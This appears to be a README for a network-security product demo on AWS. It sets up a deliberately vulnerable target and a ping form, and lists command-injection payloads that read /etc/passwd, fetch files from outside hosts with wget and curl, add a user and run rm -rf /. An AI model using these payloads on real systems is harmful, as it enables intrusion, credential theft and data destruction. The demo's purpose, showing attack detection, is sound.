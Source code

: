 # Cloud One - Network Security Demo
Requirements:

-- AWS Account
-- NSVA Deployment (Terraform)
-- 2 Ubuntu Linux Instances

## Phase1 - Demo Preparation
- Create 2 new Linux Instances;
- On the Advanced Options field, paste the script attacker.sh and target.sh (1 script in each instance);

## Phase2 - Testing the Demo
- Connect on the Linux Instance where you executed the attacker script through http://public-ip

-- username: administrator 
-- password: password

- Connect on the Linux Instance where you executed the target script through http://public-ip

## Phase3 - Executing the Demo
- Command Injection Menu
-- Use the "Ping" field to execute the attacks below:
- 127.0.0.1| python http://target-ip/hello "command"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "cat /etc/passwd"
- 127.0.0.1| python exploit.py http://target-ip/hello "wget http://2016.eicar.org/download/eicar.com"
- 127.0.0.1| python exploit.py http://target-ip/hello "curl http://wrs21.winshipway.com/"
- 127.0.0.1| python exploit.py http://target-ip/hello "adduser YouHaveBeenPwned"
- 127.0.0.1| python exploit.py http://target-ip/hello "ls -la"
- 127.0.0.1| python exploit.py http://target-ip/hello "rm -rf /"

## Phase3 - SMS/C1NS Logs
Check the logs

.


